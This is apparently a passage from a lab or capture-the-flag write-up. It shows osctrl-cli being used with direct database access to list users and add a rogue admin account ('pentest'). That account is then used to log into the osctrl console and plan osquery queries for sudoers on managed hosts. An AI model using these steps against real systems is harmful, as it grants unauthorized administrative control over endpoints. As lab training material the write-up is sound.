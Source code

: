 ```
   all-permissions, A, all-perms  Show all permissions for an existing user
   delete, d                      Delete an existing user
   show, s                        Show an existing user
   list, l                        List all existing users
   help, h                        Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

There's only `admin` user
```
provision@os:/opt$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user l
Existing users (1):
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| USERNAME | FULLNAME | ADMIN? |         DEFAULT ENVIRONMENT          | LAST IPADDRESS |         LAST USERAGENT         |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| admin    | Admin    | True   | 06db90ca-cdf6-4735-928c-17654a398aa3 | 10.211.55.2    | Mozilla/5.0 (Macintosh;        |
|          |          |        |                                      |                | Intel Mac OS X 10_15_7)        |
|          |          |        |                                      |                | AppleWebKit/537.36 (KHTML,     |
|          |          |        |                                      |                | like Gecko) Chrome/114.0.0.0   |
|          |          |        |                                      |                | Safari/537.36                  |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+

```

We can create new user with admin privileges
```
provision@os:/opt$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user a --username pentest --password P@ssw0rd --admin -e 06db90ca-cdf6-4735-928c-17654a398aa3
✅ created user pentest successfully
```

Now we can login to `https://os.control.vl:8443/`

![](9.png)

We can run queries against both hosts ([Documentation](https://osquery.io/schema/5.6.0)). Let's check `sudoers`

![](10.png)

![](11.png)
